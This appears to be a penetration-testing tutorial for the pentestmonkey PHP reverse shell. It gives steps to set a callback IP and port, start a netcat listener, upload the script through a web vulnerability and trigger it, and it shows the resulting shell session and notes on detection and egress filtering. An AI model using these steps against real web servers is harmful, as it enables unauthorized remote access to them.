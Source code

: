 ### Walk Through
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

~~~
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
~~~

### Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
~~~
$ nc -v -n -l -p 1234
~~~
### Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

~~~
http://somesite/php-reverse-shell.php
~~~

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
~~~
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
~~~

## FAQs

### When is this useful?

Perhaps the only areas on disk that you have write access to are mounted with the “noexec” option.  Uploading a compiled program will be of no use in these situations.  You need to use an installed scripting language like Python, PERL, PHP, etc.
Perhaps you just can’t be bothered to upload a second program.

### Isn’t the shell connection just going to be severed when the web server times out the PHP script?

No.  It doesn’t seem to on the systems that I’ve tested it on (Gentoo Linux only so far).  Additionally the PHP script attempts to daemonise itself and dissociate from the parent process to avoid this (though it rarely works in practise).  Your browser will appear to hang when you access the reverse shell.  This is normal.  It’s OK to hit cancel in your browser once you’ve got your shell.

### Isn’t there going to be a rather suspicious looking shell process when the admin runs “ps”?

Yeah.  This version of the reverse shell isn’t very subtle:
~~~
apache   28106  0.0  0.0  10428  1216 ?        S    17:15   0:00 sh -c uname -a; w; id; /bin/sh -i
apache   28110  0.0  0.0  10172  1428 ?        S    17:15   0:00 /bin/sh -i
~~~

## Caveats

Outbound firewalling (aka egress filtering) may prevent your reverse shell connection reaching you.  Pick a port that’s allowed through Firewall.  If there are none, you’ll have to make do with a form-based PHP shell.

This particular implementation of the reverse shell is unix-based.  You’ll need to modify it before it will work on windows.

I’ve noticed a couple of zombie processes while testing this shell.  It doesn’t always happen, but is probably to be expected since we’re not daemonising ourself properly.

---
ref
http://pentestmonkey.net/tools/web-shells/php-reverse-shell

